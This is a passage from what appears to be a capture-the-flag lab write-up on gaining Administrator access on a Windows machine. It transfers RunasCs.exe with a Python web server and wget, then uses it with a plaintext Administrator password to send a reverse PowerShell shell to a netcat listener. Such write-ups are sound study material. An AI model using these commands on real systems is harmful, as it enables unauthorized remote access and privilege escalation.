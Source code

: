 {% code overflow="wrap" lineNumbers="true" %}
```powershell
#On my machine
python3 -m http.server 8000

#On the target machine
wget http://10.10.14.10:8000/RunasCs.exe -outFile RunasCs.exe
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

***

* Then I set another [_Netcat_](../../networks/tools-and-utilities.md#netcat) listener and tried using the binary to generate a Reverse Shell spawning a PowerShell that would connect to my machine specifying the proper credentials. With that, I successfully gained a shell as the _Administrator_ user

{% code overflow="wrap" lineNumbers="true" %}
```bash
#On my machine
nc -nvlp 7777

#On the target machine
.\RunasCs.exe Administrator s67uB4zKqBIXw powershell.exe -r 10.10.14.10:7777
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

